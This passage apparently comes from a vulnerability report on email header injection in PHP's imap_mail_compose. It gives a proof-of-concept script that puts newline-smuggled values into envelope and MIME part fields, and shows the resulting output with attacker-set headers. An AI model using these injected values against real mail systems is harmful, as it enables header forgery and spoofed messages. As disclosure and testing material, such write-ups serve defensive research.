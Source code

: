 * Note that we were able to inject the 1st header which basically allows us to perform a splitting attack and set arbitrary header fields - we are basically in full control of all headers. `X-INJECTED-REMAIL: X-INJECTED\nFrom: X-INJECTED-REMAIL-FROM`

```php
<?php
$envelope["from"]= "joe@example.com\n From : X-INJECTED";
$envelope["to"]  = "foo@example.com\nFrom: X-INJECTED";
$envelope["cc"]  = "bar@example.com\nFrom: X-INJECTED";
$envelope["subject"]  = "bar@example.com\n\n From : X-INJECTED";
$envelope["remail"]  = "X-INJECTED-REMAIL: X-INJECTED\nFrom: X-INJECTED-REMAIL-FROM"; //<--- Injected as first hdr
$envelope["something"]  = "bar@example.com\nFrom: X-INJECTED";

$part1["type"] = TYPEMULTIPART;
$part1["subtype"] = "mixed";

$part2["type"] = TYPEAPPLICATION;
$part2["encoding"] = ENCBINARY;
$part2["subtype"] = "octet-stream\nContent-Type: X-INJECTED";
$part2["description"] = "some file\nContent-Type: X-INJECTED";
$part2["contents.data"] = "ABC\nContent-Type: X-INJECTED";

$part3["type"] = TYPETEXT;
$part3["subtype"] = "plain";
$part3["description"] = "description3";
$part3["contents.data"] = "contents.data3\n\n\n\t";

$body[1] = $part1;
$body[2] = $part2;
$body[3] = $part3;

echo imap_mail_compose($envelope, $body);
?>


```

* Output: 

```
X-INJECTED-REMAIL: X-INJECTED
From: X-INJECTED-REMAIL-FROMReSent-From: joe@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."
ReSent-Subject: bar@example.com

 From : X-INJECTED
ReSent-To: foo@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."
ReSent-cc: bar@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."

--371156484-1425523733-1593789098=:2410
Content-Type: APPLICATION/octet-stream
Content-Type: X-INJECTED
Content-Transfer-Encoding: BASE64
Content-Description: some file
Content-Type: X-INJECTED

QUJDCkNvbnRlbnQtVHlwZTogWC1JTkpFQ1RFRA==

--371156484-1425523733-1593789098=:2410
Content-Type: TEXT/plain; CHARSET=US-ASCII
Content-Description: description3

contents.data3

```